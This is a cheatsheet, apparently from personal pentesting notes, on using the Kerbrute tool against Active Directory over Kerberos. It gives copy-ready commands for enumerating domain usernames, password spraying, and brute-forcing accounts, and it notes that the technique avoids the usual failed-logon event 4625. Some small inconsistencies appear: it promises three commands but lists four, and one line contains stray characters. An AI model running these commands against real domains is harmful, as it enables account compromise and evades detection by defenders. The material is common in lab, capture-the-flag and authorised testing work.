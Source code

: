 # Kerbrute Cheatsheet
 For more information on the mechanics of Kerberos  [[Active-Directory-Kerberos-Authentication-Defined]] and [[Attacking-Kerberos]].
 
Kerbrute go install method `go install github.com/ropnop/kerbrute@latest`  
[Kerbrute precompiled](https://github.com/ropnop/kerbrute/releases)

Kerbrute has three main commands:

-   **bruteuser** - Bruteforce a single user's password from a wordlist
-   **bruteforce** - Read username:password combos from a file or stdin and test them
-   **passwordspray** - Test a single password against a list of users
-   **userenum** - Enumerate valid domain usernames via Kerberos
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /path/to/wordlist/usernames.txt`


Bruteforcing Windows passwords with Kerberos is much faster than any other approach and potentially stealthier since pre-authentication failures do not trigger that  "traditional" An account failed to log on event 4625. With Kerberos, you can validate  # a username or test a login by only sending one UDP frame to the KDC (Domain Controller) 

```bash
# User enum (valid/invalid) 
./kerbrute_linux_amd64 userenum  -dc dc-domain -d lab.ropnop.com usernames.txt  
# Password spraying 
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123  # Brute force one user (take care of policy!) 
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman  
# General bruteforce (from username:password wordlist or from stdin) 
./kerbrute -d lab.ropnop.com bruteforce -`
```


If issues with kerberos trying syncing time to KDC host
```bash
sudo apt install ntpdate
sudo ntpdate $dc_ip
```
[Alh4zr3d's HTB search stream](https://www.youtube.com/watch?v=OEu3sXFUCP0)


## References

[Haak9](https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/)